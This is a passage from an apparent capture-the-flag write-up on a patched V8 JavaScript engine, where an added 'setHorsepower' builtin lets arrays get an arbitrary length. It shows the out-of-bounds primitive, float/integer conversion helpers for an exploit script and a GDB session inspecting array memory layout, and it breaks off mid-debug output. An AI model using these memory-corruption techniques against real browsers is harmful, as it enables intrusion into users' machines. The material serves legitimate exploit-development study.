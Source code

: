 <pre class="language-cpp"><code class="lang-cpp">ArraySetHorsepower(js-implicit context: NativeContext, receiver: JSAny)(horsepower: JSAny): JSAny {
    try {
        const h: Smi = Cast&#x3C;Smi>(horsepower) otherwise End;
        const a: JSArray = Cast&#x3C;JSArray>(receiver) otherwise End;
        a.SetLength(h);
    } label End {
        Print("Improper attempt to set horsepower");
    }
    return receiver;
}

macro SetLength(l: Smi) {
<strong>    this.length = l;
</strong>}

SimpleInstallFunction(isolate_, proto, "setHorsepower",
    Builtins::kArraySetHorsepower, 1, false);
</code></pre>

We can essentially set the `length` of an array by using `.setHorsepower()`. By setting it to a larger value, we can get an OOB read and write, from which point it would be very similar to the [oob-v8 writeup](ctf-2019-oob-v8/).

## Understanding the Memory Layout

Let's first try and check the OOB works as we expected. We're gonna create an `exploit.js` with the classic `ftoi()` and `itof()` functions:

```javascript
var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) { // typeof(val) = float
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
}

function itof(val) { // typeof(val) = BigInt
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}
```

Then load up d8 under GDB. This version is a lot newer than the one from OOB-V8, so let's work out what is what.

```javascript
$gdb d8
gef➤  run --allow-natives-syntax --shell exploit.js
d8> a = [1.5, 2.5]
[1.5, 2.5]
d8> %DebugPrint(a)
DebugPrint: 0xa5e08085179: [JSArray]
 - map: 0x0a5e082439f1 <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x0a5e0820ab61 <JSArray[0]>
 - elements: 0x0a5e08085161 <FixedDoubleArray[2]> [PACKED_DOUBLE_ELEMENTS]
 - length: 2
 - properties: 0x0a5e0804222d <FixedArray[0]>
 - All own properties (excluding elements): {
    0xa5e080446d1: [String] in ReadOnlySpace: #length: 0x0a5e0818215d <AccessorInfo> (const accessor descriptor), location: descriptor
 }
 - elements: 0x0a5e08085161 <FixedDoubleArray[2]> {
           0: 1.5
```